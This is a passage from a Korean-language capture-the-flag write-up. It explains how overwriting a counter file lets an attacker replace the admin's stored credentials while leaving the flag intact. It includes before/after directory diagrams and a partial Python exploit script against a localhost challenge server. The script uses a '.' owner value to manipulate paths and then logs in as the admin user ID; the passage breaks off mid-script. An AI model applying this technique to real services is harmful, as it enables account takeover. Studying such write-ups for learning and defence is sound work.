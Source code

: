 그렇다면 "Counter 파일 덮어쓰기"를 이용하여 DB_FOLDER의 Counter를 덮어쓴다면 ADMIN의 데이터가 저장된 폴더(`database/1`)에서 FLAG는 보존한 채 인증 정보가 저장된 파일(`database/1/1`)만 덮어쓸 수 있게됩니다.

공격 전과 공격 후의 `database/1`의 상황을 시각화하면 아래와 같습니다.

**공격 전**
```
database/
  1/
    0 -> {"id": "1", "username":"admin", "password":"..."}
    1 -> SSD{REDACTED}
```

**공격 후**
```
database/
  1/
    0 -> {"id": "1", "username":"attacker", "password":"attacker's hashed password"}
    1 -> SSD{REDACTED}
```

이제 Login 후 FLAG를 읽을 수 있습니다.

## Exploit

```py
import requests as req
import hashlib

url = 'http://localhost:3000'


res = req.post(f'{url}/api/auth/register', json={
    'username': 'guest',
    'password': 'guest',
})
user_id = res.json().get('user_id')

res = req.post(f'{url}/api/auth/login', json={
    'user_id': '2',
    'password': 'guest'
})
token = res.json().get('token')
headers = {
    "authorization": f"Bearer {token}"
}

res = req.put(f'{url}/api/hdd/update', json={
    "data_id": "0", "newData": "0"
}, headers=headers)

res = req.put(f'{url}/api/hdd/change-owner', json={
    "new_user_id": ".", "data_id": "0"
}, headers=headers)

res = req.post(f'{url}/api/auth/register', json={
    'username': 'guest',
    'password': 'guest',
})

res = req.post(f'{url}/api/auth/login', json={
    'user_id': '1',
    'password': 'guest',
})
token = res.json().get('token')
headers = {
```